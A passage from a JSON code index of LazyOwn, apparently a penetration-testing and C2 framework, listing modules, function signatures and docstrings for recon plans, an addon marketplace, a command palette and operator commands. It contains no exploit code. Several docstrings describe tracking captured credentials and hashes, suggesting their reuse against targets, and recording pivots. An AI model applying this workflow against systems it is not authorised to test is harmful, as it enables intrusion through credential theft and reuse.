PostScanConfig"}, {"doc": "Structured outcome of :func:`run_post_scan`.\n\nAttributes:\n    skipped: ``True`` when the operator toggled the feature off.\n    plan: The generated :class:`ReconPlan`, or ``None`` on failure.\n    plan_path: Filesystem path the plan was written to, when any.\n    world_model_updated: ``True`` when the phase write succeeded.\n    event_emitted: ``True`` when the events.jsonl append succeeded.", "kind": "class", "line": 76, "name": "PostScanResult", "signature": "class PostScanResult"}, {"doc": "Generate the plan, bump the world model and emit an event.\n\nArgs:\n    target: Host the scan was performed on.\n    payload: ``payload.json`` mapping. Used to resolve the active\n        platform and the ``enable_recon_plan`` toggle.\n    console: Optional duck-typed console (``rich.console.Console``\n        compatible). When ``None`` the plan is still written to\n        disk; only the inline preview is suppressed.\n    config: Optional :class:`PostScanConfig` override.\n    engine_factory: Zero-arg callable returning an\n        :class:`ExplorationEngine`. Defaults to one wired against\n        ``cfg.sessions_dir`` and the payload-resolved OS.\n    plan_config: Optional :class:`ReconPlanConfig` override.\n    clock: Zero-arg callable returning epoch seconds.\n\nReturns:\n    A :class:`PostScanResult` summarising what was produced. The\n    function never raises — every error path is logged via\n    ``console.print`` and recorded as ``False`` in the result.", "kind": "function", "line": 94, "name": "run_post_scan", "signature": "def run_post_scan(target, payload, console, config, engine_factory, plan_config, clock)"}, {"doc": "Return the resolved value of the recon-plan toggle.", "kind": "function", "line": 164, "name": "_enabled", "signature": "def _enabled(payload, cfg)"}, {"kind": "function", "line": 180, "name": "_default_engine_factory", "signature": "def _default_engine_factory(payload, cfg)"}, {"kind": "function", "line": 188, "name": "_update_world_model_phase", "signature": "def _update_world_model_phase(cfg, target, clock_fn)"}, {"kind": "function", "line": 213, "name": "_emit_event", "signature": "def _emit_event(cfg, target, plan, plan_path, clock_fn)"}, {"kind": "function", "line": 263, "name": "_atomic_write_json", "signature": "def _atomic_write_json(path, data, mode)"}, {"kind": "function", "line": 291, "name": "_safe_log", "signature": "def _safe_log(console, message)"}]}, {"doc": "Interactive marketplace manager for LazyOwn lazyaddons, plugins, and tools.  Provides a curses-based TUI mirroring the Powerlevel10k-style configurator from ``banner_config.py``. The operator can browse, enable/disable, edit, and create lazyaddons, Lua plugins, and pwntomate tools from a single interface.  Design (SOLID):  - ``MarketplaceConfig`` centralises constants (keys, key codes, palette IDs). - ``MarketplaceSettings`` is the mutable state (enabled/disabled per addon). - ``AddonInfo`` describes a single addon from YAML/Lua/.tool on disk. - ``AddonRegistry`` scans ``lazyaddons/``, ``plugins/``, ``tools/`` and builds the canonical list. - ``MarketplaceConfigurator`` is the only piece bound to curses; tests can drive any registry behaviour without a TTY. - ``configure_marketplace_interactive`` is the public entry point.", "id": "cli/marketplace_config.py", "kind": "module", "label": "marketplace_config.py", "language": "py", "sha256": "29f25e20f82b2f65", "symbol_count": 46, "symbols": [{"doc": "Centralised constants for the marketplace configurator.", "kind": "class", "line": 56, "name": "MarketplaceConfig", "signature": "class MarketplaceConfig"}, {"doc": "Metadata for one addon on disk.", "kind": "class", "line": 131, "name": "AddonInfo", "signature": "class AddonInfo"}, {"doc": "Scans lazyaddons/, plugins/, tools/, yara_rules/, nuclei-templates/ and builds the addon list.", "kind": "class", "line": 197, "name": "AddonRegistry", "signature": "class AddonRegistry"}, {"doc": "Mutable marketplace state: which addons are enabled.", "kind": "class", "line": 349, "name": "MarketplaceSettings", "signature": "class MarketplaceSettings"}, {"doc": "Curses-driven p10k-style wizard for marketplace management.", "kind": "class", "line": 378, "name": "MarketplaceConfigurator", "signature": "class MarketplaceConfigurator"}, {"doc": "Open the multi-tab curses wizard for marketplace management.\n\nArgs:\n    config: Optional custom configuration.\n    start_tab: Optional tab pre-selection (\"lazyaddons\", \"plugins\",\n        \"tools\", \"yara\", \"nuclei\").\n\nReturns ``None`` when the operator cancels or the environment cannot\nhost a curses session.\n\nReturns:\n    :class:`MarketplaceSettings` with the final state, or ``None``.", "kind": "function", "line": 751, "name": "configure_marketplace_interactive", "signature": "def configure_marketplace_interactive(config, start_tab)"}, {"kind": "function", "line": 774, "name": "_build_initial_settings", "signature": "def _build_initial_settings(registry)"}, {"doc": "Return a text summary of enabled/disabled addons across all tabs.", "kind": "function", "line": 784, "name": "marketplace_summary", "signature": "def marketplace_summary(registry)"}, {"kind": "method", "line": 144, "name": "from_yaml", "signature": "def from_yaml(cls, path)"}, {"doc": "Flip the enabled state on disk.", "kind": "method", "line": 164, "name": "toggle_enabled", "signature": "def toggle_enabled(self)"}, {"doc": "Set the enabled state and persist to disk.", "kind": "method", "line": 168, "name": "set_enabled", "signature": "def set_enabled(self, enabled)"}, {"doc": "Rewrite the YAML file with the given data dictionary.", "kind": "method", "line": 185, "name": "save_yaml", "signature": "def save_yaml(self, data)"}, {"kind": "method", "line": 220, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 223, "name": "_nuclei_dir", "signature": "def _nuclei_dir(self)"}, {"kind": "method", "line": 235, "name": "scan", "signature": "def scan(self, tab)"}, {"kind": "method", "line": 259, "name": "_scan_yara", "signature": "def _scan_yara(self)"}, {"kind": "method", "line": 278, "name": "_scan_nuclei", "signature": "def _scan_nuclei(self)"}, {"kind": "method", "line": 307, "name": "_parse_yara_meta", "signature": "def _parse_yara_meta(path)"}, {"kind": "method", "line": 319, "name": "_parse_nuclei_info", "signature": "def _parse_nuclei_info(path)"}, {"kind": "method", "line": 334, "name": "rescan", "signature": "def rescan(self, tab)"}, {"kind": "method", "line": 338, "name": "tab_order", "signature": "def tab_order(self)"}, {"kind": "method", "line": 341, "name": "tab_label", "signature": "def tab_label(self, tab)"}, {"kind": "method", "line": 344, "name": "tab_count", "signature": "def tab_count(self, tab)"}, {"kind": "method", "line": 354, "name": "is_enabled", "signature": "def is_enabled(self, kind, name)"}, {"kind": "method", "line": 357, "name": "toggle", "signature": "def toggle(self, addon)"}, {"kind": "method", "line": 367, "name": "enable_all", "signature": "def enable_all(self, addons)"}, {"kind": "method", "line": 372, "name": "disable_all", "signature": "def disable_all(self, addons)"}, {"kind": "method", "line": 381, "name": "__init__", "signature": "def __init__(self, config, registry, initial)"}, {"kind": "method", "line": 395, "name": "run", "signature": "def run(self, start_tab)"}, {"kind": "method", "line": 408, "name": "_tty_available", "signature": "def _tty_available()"}, {"kind": "method", "line": 411, "name": "_rows_for_tab", "signature": "def _rows_for_tab(self, tab)"}, {"kind": "method", "line": 414, "name": "_loop", "signature": "def _loop(self, stdscr)"}, {"kind": "method", "line": 465, "name": "_cycle_tab", "signature": "def _cycle_tab(self, direction)"}, {"kind": "method", "line": 470, "name": "_edit_addon", "signature": "def _edit_addon(self, addon)"}, {"kind": "method", "line": 480, "name": "_create_addon", "signature": "def _create_addon(self, stdscr)"}, {"kind": "method", "line": 537, "name": "_init_colors", "signature": "def _init_colors(self)"}, {"kind": "method", "line": 564, "name": "_render", "signature": "def _render(self, stdscr, rows, cursor, offset)"}, {"kind": "method", "line": 604, "name": "_draw_frame", "signature": "def _draw_frame(self, stdscr, top, left, height, width)"}, {"kind": "method", "line": 618, "name": "_draw_header", "signature": "def _draw_header(self, stdscr, top, left, width)"}, {"kind": "method", "line": 641, "name": "_draw_tabs", "signature": "def _draw_tabs(self, stdscr, row_y, left, width)"}, {"kind": "method", "line": 659, "name": "_draw_column_headers", "signature": "def _draw_column_headers(self, stdscr, row_y, left, width, rows)"}, {"kind": "method", "line": 669, "name": "_draw_row", "signature": "def _draw_row(self, stdscr, row_y, left, width, addon, selected)"}, {"kind": "method", "line": 692, "name": "_draw_preview", "signature": "def _draw_preview(self, stdscr, top, left, width, addon)"}, {"kind": "method", "line": 720, "name": "_draw_summary", "signature": "def _draw_summary(self, stdscr, row_y, left, width, rows)"}, {"kind": "method", "line": 732, "name": "_draw_footer", "signature": "def _draw_footer(self, stdscr, row_y, left, width)"}, {"kind": "method", "line": 742, "name": "_color", "signature": "def _color(self, pair)"}]}, {"doc": "Canonical non-actionable verb registry for post-command surfaces.  The inline hints, the unified tips engine, and the interactive chain prompt each skip a near-identical list of verbs that produce no engagement progress (help, history, navigation, and configuration commands). This module is the single source of truth for that vocabulary so the three surfaces can never drift apart again.  Each surface composes its own exported set from the shared base plus its surface-specific extras, keeping backwards-compatible names:  - ``cli.reactive_hints.SKIP_COMMANDS`` = base + graph hints extras - ``cli.tips_engine.SKIP_COMMANDS`` = base + tips extras - ``cli.chain_mode.CHAIN_SKIP_VERBS`` = base + chain extras", "id": "cli/noise_verbs.py", "kind": "module", "label": "noise_verbs.py", "language": "py", "sha256": "b233cb4eab131dee", "symbol_count": 0, "symbols": []}, {"doc": "Power-user operator commands: ctx, tgrep, phase, note, l00t, pivot, tasks, sitrep, scans.  All functions are pure (no side effects beyond filesystem reads/writes) and have no imports from lazyown.py or lazyc2.py so they can be unit-tested in isolation and reused from MCP tools.", "id": "cli/ops_commands.py", "kind": "module", "label": "ops_commands.py", "language": "py", "sha256": "34124ad13784f233", "symbol_count": 53, "symbols": [{"doc": "Print a single-line operator context summary.\n\nArgs:\n    payload: Live params dict.\n    sessions_dir: Path to sessions directory.", "kind": "function", "line": 74, "name": "print_ctx", "signature": "def print_ctx(payload, sessions_dir)"}, {"doc": "Search past command outputs and session logs for ``pattern``.\n\nSearches in order:\n  1. ``sessions/_cli_transcript.jsonl`` (in-memory transcript with full output)\n  2. ``sessions/LazyOwn_session_report.csv`` (command column)\n  3. ``sessions/logs/`` text files\n\nArgs:\n    pattern: Regular expression or plain string to search for.\n    sessions_dir: Base sessions directory.\n    limit: Maximum total hits to display.\n    case_insensitive: Case-insensitive matching when True.", "kind": "function", "line": 115, "name": "tgrep", "signature": "def tgrep(pattern)"}, {"kind": "function", "line": 177, "name": "_search_transcript_jsonl", "signature": "def _search_transcript_jsonl(rx, hits, limit)"}, {"kind": "function", "line": 211, "name": "_search_csv", "signature": "def _search_csv(rx, hits, limit)"}, {"kind": "function", "line": 236, "name": "_search_logs", "signature": "def _search_logs(rx, hits, limit, sessions_dir)"}, {"kind": "function", "line": 265, "name": "_highlight_match", "signature": "def _highlight_match(line, rx)"}, {"doc": "Return the current kill-chain phase from the unified killchain module.", "kind": "function", "line": 279, "name": "read_phase", "signature": "def read_phase()"}, {"doc": "Return the positional index of a phase in the kill chain.", "kind": "function", "line": 287, "name": "_phase_rank", "signature": "def _phase_rank(phase)"}, {"doc": "Map a WorldModel EngagementPhase to a CLI PHASES value.", "kind": "function", "line": 292, "name": "_engagement_phase_to_cli", "signature": "def _engagement_phase_to_cli(phase_value)"}, {"doc": "Map a CLI phase to a WorldModel HostState value.", "kind": "function", "line": 297, "name": "_cli_phase_to_host_state", "signature": "def _cli_phase_to_host_state(phase)"}, {"doc": "Set the current kill-chain phase via the unified killchain module.\n\nDelegates to ``KillChain.advance_phase`` which atomically writes\n``world_model.json`` and advances all WorldModel hosts.\n\nArgs:\n    phase: One of the PHASES values.\n\nReturns:\n    True on success, False if the phase name is invalid.", "kind": "function", "line": 302, "name": "write_phase", "signature": "def write_phase(phase)"}, {"doc": "Print the current phase and the full kill-chain progress bar.\n\nReads data from the unified killchain module and renders a rich\nprogress display.", "kind": "function", "line": 317, "name": "print_phase", "signature": "def print_phase()"}, {"doc": "Return a fixed-width filled/empty block bar for ``ratio`` in [0, 1].", "kind": "function", "line": 359, "name": "_render_progress_bar", "signature": "def _render_progress_bar(ratio)"}, {"doc": "Return True when sessions/os.json records an active OS fingerprint.", "kind": "function", "line": 367, "name": "_os_identified", "signature": "def _os_identified(sessions_dir)"}, {"doc": "Return the number of files under ``sessions_dir`` matching ``pattern``.", "kind": "function", "line": 375, "name": "_glob_count", "signature": "def _glob_count(sessions_dir, pattern)"}, {"doc": "Return True when a generated report (report_*.md/.docx) is present.", "kind": "function", "line": 380, "name": "_report_artifact_exists", "signature": "def _report_artifact_exists(sessions_dir)"}, {"doc": "Return the number of recorded pivot entries.", "kind": "function", "line": 385, "name": "_count_pivots", "signature": "def _count_pivots(sessions_dir)"}, {"doc": "Return per-phase completion ratios from the unified kill-chain progress.\n\nDelegates entirely to ``KillChain.get_progress`` — no filesystem heuristics,\nno side-channel counts. The world model IS the progress.\n\nArgs:\n    world: Parsed world_model.json document (unused; kept for backward compat).\n    sessions_dir: Base sessions directory. Used to resolve the world_model path\n        when it is a relative path under this directory.\n\nReturns:\n    A mapping of each :data:`PHASES` value to a completion ratio in [0, 1].", "kind": "function", "line": 393, "name": "phase_progress", "signature": "def phase_progress(world, sessions_dir)"}, {"kind": "function", "line": 425, "name": "_read_json", "signature": "def _read_json(path)"}, {"kind": "function", "line": 433, "name": "_write_json_atomic", "signature": "def _write_json_atomic(path, data)"}, {"kind": "function", "line": 450, "name": "_count_glob", "signature": "def _count_glob(pattern)"}, {"doc": "Append a timestamped operator note to sessions/notes.jsonl.\n\nArgs:\n    text: Free-form note text.\n    rhost: Current target IP (attached as context).\n    phase: Current kill-chain phase (attached as context).", "kind": "function", "line": 468, "name": "note_add", "signature": "def note_add(text, rhost, phase)"}, {"doc": "Print recent operator notes, optionally filtered by rhost.\n\nArgs:\n    rhost: When non-empty, only show notes for this target.\n    limit: Maximum number of notes to display.", "kind": "function", "line": 493, "name": "note_list", "signature": "def note_list(rhost, limit)"}, {"doc": "A single captured credential or hash parsed from a loot file.\n\nAttributes:\n    source: Basename of the file the entry was read from.\n    kind: ``clelazyt`` for credentials*.txt, ``hash`` for hash*.txt.\n    user: Username portion (text before the first colon), full length.\n    secret: Password or hash portion (text after the first colon).", "kind": "class", "line": 545, "name": "LootEntry", "signature": "class LootEntry"}, {"doc": "Parse every credentials*.txt and hash*.txt under ``sessions_dir``.\n\nEach file is expected to hold one ``user:secret`` entry per line; blank\nlines and ``#`` comments are skipped. This is the single source of truth\nfor loot parsing reused by show / search / reuse / mark.\n\nArgs:\n    sessions_dir: Base sessions directory.\n\nReturns:\n    A list of :class:`LootEntry` in file then line order.", "kind": "function", "line": 571, "name": "gather_loot", "signature": "def gather_loot(sessions_dir)"}, {"doc": "Print a unified table of all captured credentials and hashes.\n\nArgs:\n    sessions_dir: Base sessions directory.", "kind": "function", "line": 614, "name": "loot_show", "signature": "def loot_show(sessions_dir)"}, {"doc": "Find the first session-log row that mentions ``query``.\n\nArgs:\n    query: Case-insensitive needle to search the command CSV for.\n    sessions_dir: Base sessions directory.\n\nReturns:\n    ``{\"command\": ..., \"ts\": ...}`` for the first matching row, or\n    ``None`` when the CSV is absent or holds no match.", "kind": "function", "line": 657, "name": "_loot_provenance", "signature": "def _loot_provenance(query, sessions_dir)"}, {"doc": "Search captured loot for ``query`` across users and secrets.\n\nArgs:\n    query: Case-insensitive substring matched against user and secret.\n    sessions_dir: Base sessions directory.", "kind": "function", "line": 686, "name": "loot_search", "signature": "def loot_search(query, sessions_dir)"}, {"doc": "Return cred-node prefixes that worked / were rejected for ``host``.\n\nArgs:\n    world: Parsed world_model.json document.\n    host: Target host IP.\n\nReturns:\n    ``(worked, rejected)`` sets of ``cred:<hash>`` node identifiers that\n    the network graph records as authenticating to / rejected by ``host``.", "kind": "function", "line": 731, "name": "_cred_outcomes_for_host", "signature": "def _cred_outcomes_for_host(world, host)"}, {"doc": "Return the network-graph node id for a credential value.", "kind": "function", "line": 758, "name": "_cred_node", "signature": "def _cred_node(value)"}, {"doc": "Suggest captured credentials worth trying against ``rhost``.\n\nRanks credentials that have not yet been rejected by the target, favouring\nclelazyt over hashes and credentials already confirmed elsewhere, and\nprints ready-to-run authentication hints.\n\nArgs:\n    rhost: Current target IP (from payload ``rhost``).\n    sessions_dir: Base sessions directory.", "kind": "function", "line": 763, "name": "loot_reuse", "signature": "def loot_reuse(rhost, sessions_dir)"}, {"doc": "Render the credential-centric view of the network graph.\n\nShows, per captured credential, the hosts it was harvested from, the hosts\nit authenticated to, the hosts that rejected it, and candidate hosts.\n\nArgs:\n    sessions_dir: Base sessions directory.", "kind": "function", "line": 847, "name": "loot_graph", "signature": "def loot_graph(sessions_dir)"}, {"doc": "Resolve a user/secret ``selector`` to a canonical credential value.\n\nArgs:\n    selector: Username, secret, or full ``user:secret`` string.\n    entries: Loot entries to resolve against (from :func:`gather_loot`).\n\nReturns:\n    The matching ``user:secret`` value, preferring an exact username match,\n    then an exact value match, then the first substring match. ``None`` when\n    nothing matches.", "kind": "function", "line": 917, "name": "resolve_cred_value", "signature": "def resolve_cred_value(selector, entries)"}, {"doc": "Record that a credential worked or was rejected against ``host``.\n\nArgs:\n    selector: Username/secret/value identifying the credential.\n    outcome: ``worked`` or ``rejected``.\n    host: Host the credential was tried against.\n    sessions_dir: Base sessions directory.\n\nReturns:\n    True when an outcome edge was written, False on a usage/resolution error.", "kind": "function", "line": 945, "name": "loot_mark", "signature": "def loot_mark(selector, outcome, host, sessions_dir)"}, {"doc": "Record a newly discovered pivot target.\n\nArgs:\n    new_ip: IP of the newly reachable host.\n    via_ip: IP of the compromised host that gave access (current rhost).\n    note: Optional context (service, port, method).", "kind": "function", "line": 987, "name": "pivot_add", "signature": "def pivot_add(new_ip, via_ip, note)"}, {"doc": "Print the pivot chain discovered so far.", "kind": "function", "line": 1013, "name": "pivot_list", "signature": "def pivot_list()"}, {"kind": "function", "line": 1059, "name": "_load_tasks", "signature": "def _load_tasks()"}, {"kind": "function", "line": 1066, "name": "_save_tasks", "signature": "def _save_tasks(tasks)"}, {"doc": "Print tasks from sessions/tasks.json.\n\nArgs:\n    status_filter: 'active' (New+Started), 'all', or a specific status.\n    limit: Maximum rows to display.", "kind": "function", "line": 1070, "name": "tasks_list", "signature": "def tasks_list(status_filter, limit)"}, {"doc": "Append a new task to sessions/tasks.json.\n\nArgs:\n    title: Task description.\n    operator: Who created it (default 'cli').", "kind": "function", "line": 1125, "name": "tasks_add", "signature": "def tasks_add(title, operator)"}, {"doc": "Mark a task as Done.\n\nArgs:\n    task_id: The integer id of the task.\n\nReturns:\n    True if found and updated, False otherwise.", "kind": "function", "line": 1146, "name": "tasks_done", "signature": "def tasks_done(task_id)"}, {"doc": "Mark a task as Started.\n\nArgs:\n    task_id: The integer id of the task.\n\nReturns:\n    True if found and updated, False otherwise.", "kind": "function", "line": 1166, "name": "tasks_start", "signature": "def tasks_start(task_id)"}, {"doc": "List nmap scan files in sessions/, optionally filtered by rhost.\n\nReads the first lines of each .nmap file to extract open ports.\n\nArgs:\n    rhost: When non-empty, only show scans for this target IP.\n    sessions_dir: Path to sessions directory.", "kind": "function", "line": 1189, "name": "scans_list", "signature": "def scans_list(rhost, sessions_dir)"}, {"doc": "Print a unified operational situation report.\n\nAggregates: target info, phase/OS, scans found, loot captured, tasks\nbacklog, operator notes, pivot chain, world model hosts/vulns, and\nthe last lines of sessions/plan.txt when present.\n\nArgs:\n    payload: Live params dict (from payload.json).\n    sessions_dir: Path to the sessions directory.", "kind": "function", "line": 1242, "name": "sitrep", "signature": "def sitrep(payload, sessions_dir)"}, {"doc": "Print 2-4 contextual next-step suggestions based on engagement state.\n\nArgs:\n    rhost: Active target IP (or \"—\" if unset).\n    phase: Current phase string (lowercase).\n    has_scan: True when a nmap scan file exists for rhost.\n    cred_count: Number of credential lines captured.\n    n_tasks_new: Number of tasks in New status.\n    n_hosts: Number of hosts in world model.", "kind": "function", "line": 1386, "name": "_print_next_steps", "signature": "def _print_next_steps(rhost, phase, has_scan, cred_count, n_tasks_new, n_hosts)"}, {"kind": "function", "line": 1448, "name": "_render_steps", "signature": "def _render_steps(steps)"}, {"kind": "function", "line": 1453, "name": "_read_plan", "signature": "def _read_plan()"}, {"kind": "function", "line": 1474, "name": "_human_age", "signature": "def _human_age(seconds)"}, {"kind": "function", "line": 1484, "name": "_human_size", "signature": "def _human_size(n)"}, {"doc": "Return the canonical ``user:secret`` credential value.\n\nReturns:\n    ``user:secret`` when a secret is present, otherwise just ``user``.\n    Matches the value format stored by ``modules.world_model``.", "kind": "method", "line": 561, "name": "value", "signature": "def value(self)"}, {"kind": "function", "line": 861, "name": "_bucket", "signature": "def _bucket(node)"}, {"kind": "function", "line": 864, "name": "_host_label", "signature": "def _host_label(node)"}, {"kind": "function", "line": 901, "name": "_join", "signature": "def _join(items)"}]}, {"doc": "Structured output modes and dry-run rendering for CLI commands.  Piped automation needs JSON without ANSI. Operators skimming logs need plain text. Sensitive engagements need to preview the exact shell line before it runs. This module centralizes all three so every command parses the same flags and formats the same way.", "id": "cli/output_mode.py", "kind": "module", "label": "output_mode.py", "language": "py", "sha256": "defd71f19cd2b96e", "symbol_count": 6, "symbols": [{"doc": "Centralized knobs for output formatting.", "kind": "class", "line": 20, "name": "OutputModeConfig", "signature": "class OutputModeConfig"}, {"doc": "Parsed output flags for one command invocation.", "kind": "class", "line": 33, "name": "OutputMode", "signature": "class OutputMode"}, {"doc": "Split output control flags from positional command arguments.\n\nArgs:\n    args: Tokenised argument list.\n    config: Flag spellings.\n\nReturns:\n    OutputMode with flags set and remaining tokens in rest.", "kind": "function", "line": 43, "name": "parse_output_flags", "signature": "def parse_output_flags(args, config)"}, {"doc": "Remove ANSI escape sequences from text.\n\nArgs:\n    text: Possibly coloured string.\n\nReturns:\n    Plain string with escapes removed.", "kind": "function", "line": 65, "name": "strip_ansi", "signature": "def strip_ansi(text)"}, {"doc": "Render data according to the parsed output mode.\n\nArgs:\n    data: Mapping, sequence or preformatted string.\n    mode: Parsed flags from parse_output_flags.\n\nReturns:\n    JSON document when as_json, ANSI-stripped text when plain,\n    otherwise the string form unchanged.", "kind": "function", "line": 77, "name": "format_output", "signature": "def format_output(data, mode)"}, {"doc": "Render the exact shell line that would run without running it.\n\nArgs:\n    command: Shell line preview.\n\nReturns:\n    Single tagged line.", "kind": "function", "line": 98, "name": "dry_run_line", "signature": "def dry_run_line(command)"}]}, {"doc": "Read-only loader for ``cli/command_index.json``.  The CLI palette command, the C2 ``/palette`` endpoint and the MCP ``lazyown_palette`` tool all consume the same on-disk JSON document generated by ``scripts/build_command_index.py``. This module exposes a tiny, zero-dependency API so each surface stays in sync.  The loader is deliberately minimal: it parses the JSON once per process, caches the result, and offers ergonomic filters. The catalogue is treated as data — never mutated in place — so callers can safely share the cached object across threads.", "id": "cli/palette.py", "kind": "module", "label": "palette.py", "language": "py", "sha256": "ff587cad33930de0", "symbol_count": 11, "symbols": [{"doc": "Raised when the on-disk index is missing or malformed.", "kind": "class", "line": 25, "name": "CommandIndexError", "signature": "class CommandIndexError(RuntimeError)"}, {"doc": "Return the parsed catalogue as a dict.\n\nArgs:\n    path: Override the default index location. ``None`` uses\n        :data:`DEFAULT_INDEX_PATH`.\n\nReturns:\n    The full document with keys ``schema_version``, ``totals``,\n    ``commands``, ``phase_to_commands`` and ``category_to_commands``.\n\nRaises:\n    CommandIndexError: when the file is missing or unparseable.", "kind": "function", "line": 30, "name": "load_index", "signature": "def load_index(path)"}, {"doc": "Return every command entry, sorted by name.\n\nArgs:\n    include_duplicates: When ``False`` (default), shadowed duplicate\n        definitions are filtered out — only the canonical entry remains\n        for each name. Set to ``True`` to inspect the raw method-level\n        list (useful for the ``/duplicates`` audit view).", "kind": "function", "line": 55, "name": "all_commands", "signature": "def all_commands()"}, {"doc": "Return the sorted list of phase identifiers present in the index.", "kind": "function", "line": 72, "name": "all_phases", "signature": "def all_phases()"}, {"doc": "Return the sorted list of cmd2 category labels present in the index.", "kind": "function", "line": 77, "name": "all_categories", "signature": "def all_categories()"}, {"doc": "Return command entries whose ``phase`` matches ``phase``.\n\nUnknown phases yield an empty list instead of raising — the palette UI\nis meant to be tolerant.", "kind": "function", "line": 82, "name": "filter_by_phase", "signature": "def filter_by_phase(phase)"}, {"doc": "Return command entries with the given cmd2 category label.", "kind": "function", "line": 92, "name": "filter_by_category", "signature": "def filter_by_category(category)"}, {"doc": "Substring search over ``name`` and ``summary`` (case-insensitive).\n\nArgs:\n    query: Free-form search term. An empty string returns the full list\n        (capped by ``limit`` if provided).\n    limit: Optional cap on the result count.", "kind": "function", "line": 97, "name": "search", "signature": "def search(query)"}, {"doc": "Return the canonical entry for ``name`` or ``None`` if unknown.", "kind": "function", "line": 114, "name": "get", "signature": "def get(name)"}, {"doc": "Return the duplicate-method audit list as stored in the index.", "kind": "function", "line": 125, "name": "duplicates", "signature": "def duplicates()"}, {"doc": "Return the ``totals`` block (counts of methods, unique names, ...).", "kind": "function", "line": 130, "name": "totals", "signature": "def totals()"}]}, {"doc": "Pure logic for the operator-facing ``palette`` command.  The CLI ``do_palette`` method on :class:`LazyOwnShell`, the C2 ``/palette`` endpoint and the MCP ``lazyown_palette`` tool all share the same parsing, filtering and rendering pipeline implemented here. The module deliberately exposes only deterministic, side-effect-free helpers that take a parsed command index (a plain ``dict``) and return strings or structured rows, so every consumer can render with its own colour scheme or transport.  Design constraints driving the shape of this module:  - Single Responsibility — three small classes split the work: argument parsing, query routing, output rendering. - Open/Closed — adding a new render mode means adding a method to :class:`PaletteRenderer`; the dispatcher in :func:`render` does not have to change beyond a one-line entry. - Dependency Inversion — every entry point accepts an ``index`` argument rather than reading the JSON from disk so callers can supply fixtures or alternate sources (in-memory builds, an MCP-cached snapshot, etc.). - No magic values — every threshold, separator and label is a field of :class:`PaletteRenderConfig`, which the operator may override per call.", "id": "cli/palette_command.py", "kind": "module", "label": "palette_command.py", "language": "py", "sha256": "79eaea722942fb34", "symbol_count": 51, "symbols": [{"doc": "High-level routing modes for a parsed ``palette`` invocation.", "kind": "class", "line": 33, "name": "PaletteMode", "signature": "class PaletteMode(Enum)"}, {"doc": "Centralised constants for parser, router and renderer.\n\nThe defaults below are the only place where palette UX strings,\nseparators and limits live. ``frozen=True`` prevents accidental mutation\nby surface-specific consumers; pass a fresh instance to override.", "kind": "class", "line": 44, "name": "PaletteRenderConfig", "signature": "class PaletteRenderConfig"}, {"doc": "Parsed result of a single ``palette`` invocation.", "kind": "class", "line": 123, "name": "PaletteArgs", "signature": "class PaletteArgs"}, {"doc": "Translate a raw command line into :class:`PaletteArgs`.\n\nRouting rules (deterministic, in declaration order):\n\n1. No tokens: :attr:`PaletteMode.OVERVIEW`.\n2. ``--search <query>`` flag: :attr:`PaletteMode.SEARCH`.\n3. ``--info <name>`` flag: :attr:`PaletteMode.DETAIL`.\n4. Single token that matches a known phase: :attr:`PaletteMode.PHASE`.\n5. Single token that does not match a phase: :attr:`PaletteMode.SEARCH`\n   with the token as ``query``.\n6. Two tokens with first matching a known phase: :attr:`PaletteMode.PHASE`\n   with the second token as ``query``.\n7. Anything else: :attr:`PaletteMode.OVERVIEW` (the renderer falls back\n   to a help-style listing).", "kind": "class", "line": 132, "name": "PaletteArgumentParser", "signature": "class PaletteArgumentParser"}, {"doc": "Read-only view over the command index document.\n\nWraps the JSON structure produced by ``scripts.build_command_index`` so\ncallers do not depend on its concrete keys. Every method returns plain\nPython primitives (lists/dicts) — never references into the underlying\ndocument — so consumers can safely sort or extend the results.", "kind": "class", "line": 184, "name": "PaletteIndexQuery", "signature": "class PaletteIndexQuery"}, {"doc": "Format query results as plain text, ready to be printed.\n\nEach ``render_*`` method takes already-filtered data and returns a\nmulti-line string. The renderer never queries the index directly so the\nsame instance can be reused across surfaces (CLI, web, MCP).", "kind": "class", "line": 277, "name": "PaletteRenderer", "signature": "class PaletteRenderer"}, {"doc": "Filter ``rows`` (already in a phase) by a free-text query.\n\nArgs:\n    rows: Command entries belonging to a single phase.\n    query: Free-form term searched against ``name`` and ``summary``.\n        ``None`` or empty returns ``rows`` unchanged.", "kind": "function", "line": 395, "name": "_filter_phase_rows", "signature": "def _filter_phase_rows(rows, query)"}, {"doc": "Best-effort graph and telemetry enrichment for a single detail entry.\n\nImports :mod:`cli.palette_graph` and :mod:`cli.palette_telemetry` lazily\nso the palette stays usable on hosts that have never run graphify or\ninvoked any command yet — every missing artefact silently degrades to\nno enrichment without breaking the renderer contract.", "kind": "function", "line": 409, "name": "_enrich_detail_entry", "signature": "def _enrich_detail_entry(entry)"}, {"doc": "Top-level entry point used by :class:`LazyOwnShell.do_palette`.\n\nArgs:\n    index: The parsed command-index document (already loaded).\n    line: The raw text passed to ``do_palette``.\n    config: Optional rendering configuration override. ``None`` uses the\n        module default :class:`PaletteRenderConfig`.\n\nReturns:\n    A ready-to-print multi-line string.", "kind": "function", "line": 447, "name": "render", "signature": "def render(index, line)"}, {"doc": "Structured output of :class:`PaletteJsonRenderer` and :func:`render_json`.\n\nConsumers (the MCP tool, the C2 web client, automation scripts) read\nfields directly. The shape never includes raw helper text — only data —\nso each surface can localise or re-style without parsing strings.", "kind": "class", "line": 487, "name": "PaletteJsonResult", "signature": "class PaletteJsonResult"}, {"doc": "Produce a :class:`PaletteJsonResult` from a parsed query.\n\nMirrors :class:`PaletteRenderer` so adding a new ``PaletteMode`` requires\none method here and one method on the text renderer; the dispatcher in\n:func:`render_json` does not have to change beyond a one-line entry.", "kind": "class", "line": 514, "name": "PaletteJsonRenderer", "signature": "class PaletteJsonRenderer"}, {"doc": "Structured-data variant of :func:`render`.\n\nArgs:\n    index: The parsed command-index document.\n    line: The raw text passed to the underlying surface.\n    config: Optional configuration override.\n\nReturns:\n    A serialisable ``dict`` matching :class:`PaletteJsonResult.to_dict`.", "kind": "function", "line": 566, "name": "render_json", "signature": "def render_json(index, line)"}, {"doc": "Centralised constants for the C2 web view payload.\n\nKept separate from :class:`PaletteRenderConfig` so a deployment may\nrelabel the web UI without touching the CLI rendering strings.", "kind": "class", "line": 605, "name": "PaletteViewConfig", "signature": "class PaletteViewConfig"}, {"doc": "Assemble the template context consumed by the C2 ``/palette`` view.\n\nThe shape is intentionally flat and JSON-serialisable so the template can\nembed the full payload as a ``<script type=\"application/json\">`` block\nand the client-side JavaScript can filter without round-tripping.\n\nArgs:\n    index: The parsed command-index document.\n    config: Optional rendering-config override (used to expose the flag\n        strings the UI surfaces as filter chips).\n    view_config: Optional view-config override.", "kind": "function", 